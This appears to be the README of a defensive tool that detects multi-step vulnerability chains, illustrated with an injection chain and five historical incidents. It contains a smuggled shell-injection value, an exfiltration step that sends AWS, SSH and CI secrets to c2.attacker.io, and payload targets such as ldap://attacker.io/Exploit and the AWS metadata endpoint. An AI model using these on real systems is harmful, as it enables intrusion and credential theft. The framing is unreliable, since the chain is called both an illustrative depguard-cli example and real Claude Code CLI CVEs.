

# vuln-chain-detector

> **This project is an attempt to codify and operationalize the vulnerability chain reasoning capabilities demonstrated by Anthropic's Claude AI model.** Claude can reason across multi-hop exploit paths — tracing tainted data through session boundaries, across file systems, and through execution contexts — in a way that most static analysis tools cannot. This engine takes that reasoning and turns it into a deterministic, auditable, pattern-driven static analysis system.
>
> The detection patterns and chain mechanics are validated against a real-world illustrative example. See [examples/real-world-case-study.md](examples/real-world-case-study.md) for the full breakdown.

---

## The Problem Single-Vuln Scanners Miss

Most SAST tools detect individual sinks in isolation:
- "This `exec()` call is dangerous"
- "This env var is unvalidated"

They don't detect **chains** — where the output of one vulnerability becomes the input of another, especially across session boundaries (written to config file in session A, executed in session B). This engine does.

---

## Chain Visualization

The following diagram represents the real-world CVE chain this engine was designed to detect:

```
┌─────────────────────────────────────────────────────────────────────────────────┐
│              VULNERABILITY CHAIN — depguard-cli (Illustrative Example)          │
│              DG-2024-001 → DG-2024-003 | CWE-78 | Score: 10.0 Critical         │
└─────────────────────────────────────────────────────────────────────────────────┘

  SESSION A (Attacker-controlled environment)
  ═══════════════════════════════════════════

  [ATTACKER]
      │
      │  Sets: DG_REGISTRY='https://registry.npmjs.org"; curl ... #'
      │        via .env file, CI/CD variable, or Docker directive
      ▼
  ┌─────────────────────────────────────┐
  │  SOURCE: process.env.DG_REGISTRY    │  ← DG-2024-001
  │  resolver.ts:6                      │    CWE-78 | CVSS 8.2
  └────────────────┬────────────────────┘    No user interaction
                   │ DIRECT_FLOW
                   ▼
  ┌─────────────────────────────────────┐
  │  PASSTHROUGH: `curl -s "${…}/…"`    │
  │  Template literal (taint preserved) │
  └────────────────┬────────────────────┘
                   │ TRANSFORM_FLOW
                   ▼
  ┌─────────────────────────────────────┐
  │  SINK: execSync(cmd)                │  ← Initial code execution
  │  resolver.ts:10                     │    Payload runs here
  └────────────────┬────────────────────┘
                   │ Payload executes
                   ▼
  ┌─────────────────────────────────────┐
  │  STORE: fs.writeFileSync(           │  ← Persistence
  │    '~/.depguard/config.json',       │    Tainted config written
  │    { preScanHook: 'curl ...' }      │
  │  )                                  │
  └────────────────┬────────────────────┘
                   │
  ════════════════ │ ═══════════════════ SESSION BOUNDARY ═══════════════════════
                   │  STORED_FLOW (cross-session)
  SESSION B (every subsequent depguard-cli scan)
  ════════════════════════════════════════════════
                   │
                   ▼
  ┌─────────────────────────────────────┐
  │  LOAD: JSON.parse(                  │  ← Config loaded at startup
  │    readFileSync('config.json')      │    All fields inherit taint
  │  )                                  │
  └────────────────┬────────────────────┘
                   │ STORED_FLOW
                   ▼
  ┌─────────────────────────────────────┐
  │  PASSTHROUGH: config.preScanHook    │
  │  Tainted field from loaded config   │
  └────────────────┬────────────────────┘
                   │ CALL_FLOW
                   ▼
  ┌─────────────────────────────────────┐
  │  SINK: execSync(config.preScanHook) │  ← DG-2024-003
  │  config.ts:24                       │    CWE-78 | CVSS 9.1 (CI/CD)
  │                                     │    Runs BEFORE scan begins
  └────────────────┬────────────────────┘
                   │ Exfiltration executes
                   ▼
  ┌─────────────────────────────────────┐
  │  EXFIL: curl POST c2.attacker.io    │
  │  ~/.aws/credentials                 │  ← AWS keys, SSH keys,
  │  ~/.ssh/id_rsa                      │    CI/CD secrets, env vars
  │  process.env (all CI secrets)       │
  └─────────────────────────────────────┘

  CHAIN SCORE: 10.0 (Critical)  |  Hops: 6  |  Session-crossing: YES
  No user interaction required  |  CI/CD multiplier active
```



---

## Scanner Coverage

This engine covers all major AST scanner categories — not just SAST:

| Scanner Type | Coverage | Chain Examples Detected |
|---|---|---|
| **SAST** (Static Code Analysis) | Full | Env var → shell exec, eval injection, path traversal |
| **SCA** (Software Composition Analysis) | Full | Vulnerable dep → tainted API → exec sink |
| **DAST** (Dynamic / Runtime) | Pattern-based | HTTP input → multi-hop → OS exec, SSRF chains |
| **IAST** (Interactive / Runtime Instrumentation) | Pattern-based | Runtime taint propagation through instrumented calls |
| **Secrets** | Full | Hardcoded secret → network exfil, secret in config → exec |
| **Container / IaC** | Full | Dockerfile ENV → entrypoint injection, Helm value injection |

Full details: [docs/scanner-types.md](docs/scanner-types.md)

---

## Architecture Overview

```
Sources → Taint Tracker → Chain Graph → Scorer → Output (SARIF)
              ↕
         Pattern Library (YAML)
              ↕
      Scanner Type Adapters
   (SAST / SCA / DAST / IAST / Secrets / Container)
```

Full details: [docs/architecture.md](docs/architecture.md)

---

## Quick Start

```bash
npm install
npm run build

# Scan a directory (SAST mode)
npm run scan -- --target ./path/to/project

# Scan with specific scanner type
npm run scan -- --target . --scanner sast
npm run scan -- --target . --scanner sca
npm run scan -- --target . --scanner secrets

# Scan all types
npm run scan -- --target . --scanner all

# Output SARIF (GitHub / Jira / Snyk integration)
npm run scan -- --target . --format sarif --out results.sarif
```

---

## Real-World Case Study

The engine was initially designed and validated against a real 3-CVE chain in the Claude Code CLI.

Full case study: [examples/real-world-case-study.md](examples/real-world-case-study.md)

| ID | Component | Type | CVSS | Chain Role |
|---|---|---|---|---|
| DG-2024-001 | `resolver.ts` | Env var → shell exec | 8.2 | Initial foothold |
| DG-2024-002 | `editor.ts` | File path → cmd substitution | 7.6 | Lateral movement |
| DG-2024-003 | `config.ts` | Config hook → credential exfil | 9.1 | Persistence + exfil |

---

## Output Format

```
CHAIN DETECTED ─────────────────────────────────────────────────
  ID:                 CHAIN-a3f7c2
  Severity:           Critical
  Score:              10.0
  Pattern:            credential-exfil-chain
  Hops:               6
  Session-crossing:   YES
  User interaction:   NOT REQUIRED
  Zero-day:           NO (matched CVE pattern)

  Step 1  SOURCE       process.env.DG_REGISTRY              resolver.ts:6
  Step 2  PASSTHROUGH  `curl -s "${registry}/…"`             resolver.ts:10
  Step 3  SINK         execSync(cmd)                         resolver.ts:10
  Step 4  STORE        fs.writeFileSync config.json          [Session A]
  Step 5  LOAD         JSON.parse readFileSync               [Session B]
  Step 6  SINK         execSync(config.preScanHook)          config.ts:24

  Fix: Use args array instead of shell strings. Validate preScanHook
       against executable path allowlist before running.
─────────────────────────────────────────────────────────────────
```

---

## Repository Structure

```
vuln-chain-detector/
├── docs/
│   ├── architecture.md       # Engine design
│   ├── taint-analysis.md     # Taint tracking deep dive
│   ├── chain-scoring.md      # Scoring formula
│   ├── scanner-types.md      # SAST/SCA/DAST/IAST/Secrets/Container coverage
│   └── eng-instructions.md  # Step-by-step build guide
├── patterns/
│   ├── sast/                 # Code injection, path traversal, eval
│   ├── sca/                  # Dependency vulnerability chains
│   ├── dast/                 # HTTP input chains
│   ├── secrets/              # Hardcoded secret chains
│   └── container/            # Dockerfile / IaC chains
├── src/
│   ├── sources/              # Source node definitions
│   ├── sinks/                # Sink node definitions
│   ├── taint/                # Taint graph builder
│   ├── scoring/              # Chain scoring
│   ├── scanners/             # Scanner type adapters
│   └── output/               # SARIF / CLI output
├── examples/
│   ├── real-world-case-study.md   # Claude Code CLI CVE chain
│   └── cve-chain-example.yaml     # Ground-truth test cases
└── tests/
    └── fixtures/             # Vulnerable code samples
```

---

## Real-World Examples

Five publicly documented incidents, each shown as actual engine terminal output.
Every chain was invisible to traditional single-sink scanners.

---

### 1. Log4Shell — Apache Log4j (CVE-2021-44228 · CVSS 10.0 · 3B+ devices)

> A user types a special string into a chat box. The logging library fetches software from the internet and runs it. Silently. No warning.

```
$ npx vuln-chain-detector scan --target ./log4j-webapp --scanner sast

  Parsing 847 files...
  Building taint graph...

CHAIN DETECTED ────────────────────────────────────────────────────
  ID:       CHAIN-l4j-001     Pattern: http-input-to-jndi-exec
  Severity: Critical          Score:   10.0     Hops: 4

  Step 1  SOURCE      req.getHeader("X-Api-Version")      SearchController.java:34
  Step 2  PASSTHROUGH "API ver: " + userInput              SearchController.java:41
  Step 3  PASSTHROUGH logger.info(msg)                     SearchController.java:42
  Step 4  SINK        Log4j resolves JNDI → fetches ldap://attacker.io/Exploit

  Fix: Upgrade log4j-core to >=2.17.1. Set log4j2.formatMsgNoLookups=true.
────────────────────────────────────────────────────────────────────
```

---

### 2. event-stream npm Attack (Supply Chain · 2M+ downloads · 2018)

> A hacker took over a popular npm package and added hidden code that hunted for a Bitcoin wallet and stole it. Ran silently on every `npm install`.

```
$ npx vuln-chain-detector scan --target ./node_modules/event-stream --scanner sca

  Scanning dependency tree...

CHAIN DETECTED ────────────────────────────────────────────────────
  ID:       CHAIN-evs-001     Pattern: sca-postinstall-to-credential-exfil
  Severity: Critical          Score:   9.8      Hops: 4

  Step 1  SOURCE      package.json scripts.postinstall     flatmap-stream/package.json:6
  Step 2  PASSTHROUGH Encrypted payload decrypted runtime  index.min.js:1
  Step 3  STORE       Reads ~/.config/copay/profile/       index.min.js:1
  Step 4  SINK        HTTP POST wallet data → 111.90.151.134:8080/checker

  Fix: npm install --ignore-scripts. Audit all postinstall hooks.
────────────────────────────────────────────────────────────────────
```

---

### 3. Codecov Breach (SCA + Secrets · Twilio, Twitch, HashiCorp · 2021)

> Hackers added one line to a popular CI tool's download script: send all your secrets to our server. Ran undetected for two months in thousands of CI/CD pipelines.

```
$ npx vuln-chain-detector scan --target ./codecov.sh --scanner secrets,sca

  Tracing environment variable flows...

CHAIN DETECTED ────────────────────────────────────────────────────
  ID:       CHAIN-ccv-001     Pattern: ci-env-to-network-exfil
  Severity: Critical          Score:   10.0     Hops: 3
  CI/CD multiplier: ×1.2 active

  Step 1  SOURCE      env_vars=$(env)                      codecov.sh:171
          SOURCE      git_list=$(git remote -v)            codecov.sh:167
  Step 2  PASSTHROUGH upload_file appended with env dump   codecov.sh:198
  Step 3  SINK        curl POST http://[attacker]/upload   codecov.sh:207
          → GITHUB_TOKEN, AWS_*, NPM_TOKEN all captured

  Fix: Verify script SHA256 before execution. Pin to git SHA not URL.
────────────────────────────────────────────────────────────────────
```

---

### 4. ua-parser-js Supply Chain (SCA · 7M+ weekly downloads · 2021)

> A package used by Facebook, Microsoft, and Amazon was hijacked. For a few hours every `npm install` deployed hidden malware that stole passwords and mined crypto.

```
$ npx vuln-chain-detector scan --target ./node_modules/ua-parser-js --scanner sca

  Analysing install hooks and binary execution...

CHAIN DETECTED ────────────────────────────────────────────────────
  ID:       CHAIN-uap-001     Pattern: sca-postinstall-download-exec
  Severity: Critical          Score:   9.6      Hops: 3

  Step 1  SOURCE      package.json preinstall hook         ua-parser-js/package.json:8
  Step 2  PASSTHROUGH Shell script detects OS              preinstall.js:12
  Step 3  STORE       Downloads binary → /tmp/jsextension  preinstall.js:28
  Step 4  SINK        execSync('/tmp/jsextension')         preinstall.js:34
          → crypto miner + password stealer executes

  Fix: npm install --ignore-scripts. Verify package integrity hash.
────────────────────────────────────────────────────────────────────
```

---

### 5. Capital One SSRF → AWS Metadata (DAST · 100M records · $190M settlement · 2019)

> A hacker asked the bank's server to fetch a web address. The address was Amazon's internal secret URL that hands out cloud credentials. The server helpfully fetched it. 100 million records followed.

```
$ npx vuln-chain-detector scan --target https://api.capitalone-staging.internal --scanner dast

  Probing 34 HTTP endpoints...
  Injecting SSRF payloads...
  Monitoring out-of-band callbacks (OAST)...

CHAIN DETECTED ────────────────────────────────────────────────────
  ID:       CHAIN-ssrf-001    Pattern: dast-ssrf-to-aws-metadata
  Severity: Critical          Score:   9.9      Hops: 4

  Step 1  SOURCE      POST /v1/sync · body.url param       api-gateway:443
          → no URL allowlist validation
  Step 2  PASSTHROUGH url passed to internal fetch()       SyncService.java:88
  Step 3  STORE       Server fetches 169.254.169.254        AWS IMDS
          → GET /latest/meta-data/iam/security-credentials/
  Step 4  SINK        IAM credentials returned + exfil     AWS metadata service
          → AccessKeyId, SecretAccessKey, Token captured
          → S3 GetObject on 700+ buckets now accessible

  Fix: Allowlist permitted URL hosts. Block 169.254.0.0/16.
       Enforce IMDSv2 with session tokens.
────────────────────────────────────────────────────────────────────
```

---

## By the Numbers

| Stat | Source |
|---|---|
| **$4.45M** average cost of a data breach | IBM Cost of Data Breach Report 2023 |
| **197 days** average time to identify a breach | IBM 2023 |
| **45%** of orgs will suffer supply chain attacks by 2025 | Gartner |
| **70%** of real-world vulnerabilities require chaining to be exploitable | SonarSource Research |
| **3 billion+** devices affected by Log4Shell — a chain, not a single bug | Apache / NIST |
| **0** of the 5 examples above would be caught by a single-sink SAST scanner | vuln-chain-detector analysis |

---

## Integration

| Platform | Method |
|---|---|
| GitHub Code Scanning | Upload SARIF via `actions/upload-sarif` |
| Snyk | Feed results via Snyk Issues API |
| Jira | Auto-create P0 tickets via webhook on Critical chains |
| VS Code | SARIF Viewer extension reads output directly |

---

## Attribution

Vulnerability chain reasoning methodology derived from AI-assisted security analysis of publicly disclosed CVEs in the Claude Code CLI.
